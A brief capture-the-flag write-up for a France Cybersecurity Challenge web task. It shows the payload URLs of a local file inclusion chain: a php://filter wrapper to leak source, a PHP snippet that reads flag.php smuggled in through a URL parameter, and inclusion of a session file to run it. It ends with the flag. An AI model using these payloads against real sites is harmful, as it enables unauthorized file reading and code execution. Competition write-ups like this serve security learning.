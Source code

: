 First step: exploit LFI to get the source code of index.php
Then : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php```

```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php');?>```

```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_<PHPSESSID```

Source code: 


$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
